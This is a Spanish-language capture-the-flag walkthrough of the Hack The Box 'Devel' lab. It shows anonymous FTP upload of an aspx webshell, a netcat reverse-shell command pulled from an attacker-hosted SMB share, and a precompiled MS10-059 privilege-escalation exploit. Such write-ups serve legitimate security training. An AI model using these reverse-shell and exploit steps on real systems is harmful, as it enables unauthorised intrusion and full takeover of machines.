


# 🏳 Devel

<figure><figcaption></figcaption></figure>

<table><thead><tr><th width="227">Datos</th><th width="288.3333333333333"> </th><th>Notas</th></tr></thead><tbody><tr><td>Nombre de la máquina: </td><td><a href="https://app.hackthebox.com/machines/3">Devel</a></td><td></td></tr><tr><td>IP de la máquina:</td><td>10.10.10.5</td><td></td></tr><tr><td>Sistema simulado: </td><td>Windows 7</td><td></td></tr><tr><td>Servicio vulnerado: </td><td></td><td></td></tr><tr><td>CVEs:</td><td><a href="https://www.cvedetails.com/microsoft-bulletin/ms10-059/">CVE 2010-2554</a></td><td><a href="https://learn.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-059">MS10-059</a></td></tr></tbody></table>

### 1. Enumeración y descubrimiento

Comenzamos enumerando todos los puertos de la máquina mediante NMAP y buscando que servicios se encuentran desplegados en la máquina. Recuerda que esta enumeración la podemos hacer sin filtros ya que estamos en un entorno controlado en el que no vamos a tirar a abajo ningún servicio o llamar la atención, es por ello que enumeramos de esta manera.

```bash
nmap -sC -sV -sT 10.10.10.5 -p-
```

<figure><figcaption></figcaption></figure>

La máquina Devel como podemos ver es un Windows server 2008 en el que existen servicios montados en los puertos 21 (FTP) y 80 (HTTP). El FTP ya nos avisa nmap que es accesible mediante el usuario Anonymous por defecto.  Una vez realizado el primer paso de enumeración vamos a acceder al FTP y al HTTP para ver a que nos estamos enfrentando.

Comenzamos introduciendo el dominio devel.htb para acceder de manera sencilla. Para ello añadimos la IP y el dominio al archivo `/ect/hosts` . Una vez hecho esto podremos ver la siguiente pantalla.

<figure><figcaption></figcaption></figure>

En este punto entramos en el servico FTP desplegado mediante el usuario "anonymous" que viene por defecto y listamos el directorio. Al verlo nos percatamos de la imagen welcome.png, la cual tras buscar devel.htb/welcome.png nos percatamos que es la imagen mostrada más arriba de bienvenida.&#x20;

<figure><figcaption></figcaption></figure>


La conexión al FTP mediante el usuario Anonymous es bastante inestable. Tenlo en cuenta ya que puede que te toque reconectarte al FTP en varias ocasiones.&#x20;


### 2. Explotación y escalada de privilegios

Posiblemente si subimos un archivo mediante el servicio FTP podamos visualizarlo en el HTTP, es por ello que vamos a hacer una prueba. Crearemos un archivo de texto plano en formato TXT y vamos a subirlo al servicio FTP.&#x20;

<figure><figcaption></figcaption></figure>

Una vez hecho esto en el navegador iremos a devel.htb/prueba.txt y observamos que se visualiza el archivo sin problema.&#x20;

<figure><figcaption></figcaption></figure>

En esta situación podemos descargarnos una WebShell de aspx que nos permita trabajar y ejecutar comandos en la máquina. Para ello en nuestro caso utilizaremos la `aspx_cmd.aspx` que se encuentra en la distribución de Kali en `/usr/share/davtest/backdoors` . Lo renombraremos como queramos y lo subiremos al FTP, tras ello consultaremos la web con el combre de la shell como hicimos en la prueba.

<figure><figcaption></figcaption></figure>

En este punto tendriamos una shell funcionando en el FTP con la cual podriamos empezar a trabajar. En este punto podemos seguir diferentes caminos como el uso de meterpreter, pero en nuestro caso lo que haremos es compartir el ejecutable de Netcat a la máquina mediante samba. Para ello usaremos:

```bash
impacket-smbserver smb /home/kali/Escritorio/devel.htb/smb
```

<figure><figcaption></figcaption></figure>

En este punto ejecutaremos desde el cmd que tenemos desplegado en la web una llamada a al netcat que hemos subido en nuestro SMB abriendo un netcat en nuestro puerto 1234 para recibir esta llamada. Recuerda localizar el fichero cmd de la máquina Devel.

```
\\[IP]\share\nc.exe -e c:\windows\system32\cmd.exe [IP] [PORT]
```

<figure><figcaption></figcaption></figure>

En ese momento habrás conseguido una shell por netcat en la que ya te podrás mover dentro de los directorios de manera sencilla. En este momento podremos ver ante que sistema nos estamos enfrentando desde dentro del mismo mediante `systeminfo` .

<figure><figcaption></figcaption></figure>

En este punto vamos a comprobar con esta información y versión de windows que exploits podemos ejecutar para vulnerar la máquina. Para ello utilizaremos [Windows Exploit Sugester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) el cual nos informará de varias vulnerabilidades que podremos explotar, entre ellas la que usaremos es la [MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799)](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-059) - Importante que se aprovecha del [CVE-2010-2254](https://www.cvedetails.com/microsoft-bulletin/ms10-059/).&#x20;

Nosotros para explotar esta vulnerabilidad pusaremos un exploit subido por el usuario egre55 llamado [Chimichurri.exe](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled) el cual viene precompilado y vulnera el kernel de la máquina, aunque también existen alternativas para la explotación con metasploit y algunos otros por internet.

Para esto subiremos el archivo Chimichurri.exe a nuestro servidor samba señalando a que IP debe devolver la Shell, en la cual levantaremos un puerto con netcat a la escucha.&#x20;

```bash
\\10.10.14.8\share\Chimichurri.exe [IP] [PORT]
```

<figure><figcaption></figcaption></figure>

Tras realizar esto conseguiríamos comprometer la máquina y tendríamos acceso a ella como administradores pudiendo visualizar las flags.


Si te he ayudado sígueme y apóyame en [Hack The Box ](https://app.hackthebox.com/profile/819073)

